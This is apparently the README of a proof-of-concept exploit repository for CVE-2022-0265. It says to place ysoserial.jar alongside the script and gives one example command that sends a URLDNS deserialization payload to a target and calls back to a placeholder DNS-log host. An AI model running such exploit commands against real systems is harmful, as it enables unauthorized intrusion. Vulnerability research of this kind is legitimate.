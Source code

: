 # CVE-2022-0265

把 ysoserial.jar 放同目录下 

**example** python CVE-2022-0265.py 127.0.0.1 URLDNS "http://xxx.log."

![](poc.png)
